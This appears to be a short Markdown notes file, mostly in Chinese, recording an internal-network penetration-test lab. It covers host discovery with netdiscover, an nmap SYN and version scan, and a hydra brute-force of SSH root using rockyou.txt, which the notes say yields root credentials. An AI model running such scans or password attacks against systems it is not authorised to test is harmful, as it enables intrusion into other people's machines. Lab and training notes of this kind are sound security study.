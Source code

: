 # Intranet Penetration Test Notes

## 🌐 1. 内网主机发现

使用 `netdiscover` 快速发现当前网络中的活动主机：

```bash
netdiscover -i eth0 -r 192.168.54.0/24
```
![alt text](image.png)
结果中显示主机 IP 和对应 MAC 地址，标记可能目标主机。

---

## 🔍 2. 指定主机端口扫描

选择发现的一台主机（如 `192.168.54.9`），使用 `nmap` 扫描其开放端口和服务：

```bash
nmap -sS -sV -Pn 192.168.54.9
```

参数说明：

* `-sS`: TCP SYN 扫描（半连接）
* `-sV`: 探测服务版本
* `-Pn`: 跳过 ping，适用于被禁 ping 的主机

发现目标主机开放 SSH (22)，HTTP (80) 等端口。

---

## 🔐 3. SSH 爆破实验

对开放的 SSH 端口进行弱口令尝试：

```bash
hydra -l root -P rockyou.txt ssh://192.168.54.9
```

成功获取 root 用户的登录凭据。

---

（后续模块继续添加...）
